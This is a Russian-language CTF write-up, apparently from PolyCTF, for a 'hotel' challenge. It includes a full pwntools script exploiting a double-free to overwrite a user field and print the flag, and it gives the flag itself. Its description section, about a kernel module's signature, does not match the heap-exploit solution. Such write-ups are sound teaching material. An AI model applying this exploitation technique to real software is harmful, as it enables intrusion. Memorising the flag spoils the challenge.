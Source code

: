 #  В отеле | medium | forensics

## Информация
> После подозрительной активоности на сервере, с ядром что-то не так...

## Выдать участинкам
файл [hotel](public/hotel)

## Описание
Для решения надо обратить внимание на то, что в одном из модулей ядра была другая подпись и через такие утилиты как ghidra/IDA найти `flag` и декодировать из ASCII.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.

![alt text](solve/image.png)

**(Функция read_secret)**

Видим, что эта функция проверяет какое-то поле у curr_user и если оно равно 31337, то выводит флаг.

Значит нужно каким-то образом записать туда это значение.

Проанализировав все функции, можно заметить, что после удаления текущий юзер не обнуляется, а значит мы можем повторно его удалить. Имеем уязвимость double free

![alt text](solve/image-1.png)

**(Уязвимая функция)**

Также в эксплуатации нам поможет функция write_msg (она позволяет аллоцировать чанк любой длины, а затем записать туда что-то)

Алгоритм нашей атаки будет следующий: 

1. Используем double free (то есть очищаем один чанк два раза)
2. Выделяем чанк через write_msg такого же размера, как и структура User
3. Записываем туда наши данные (31337)
4. Получаем флаг

Полное решение:

```python
from pwn import *


s = process("./hotel")

for i in range(9):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

for i in range(7):
    s.recvuntil(b"> ")
    s.sendline(b"1")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b"> ")
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 8
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

for i in range(50, 50+7):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 456
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{40}".encode())
s.recvuntil(b": ")
s.sendline(b"A" * 16 + p64(31337))

s.interactive()
```

## Флаг
`PolyCTF{D0Ubl3_r00m_f4r_yoU_S1R}`
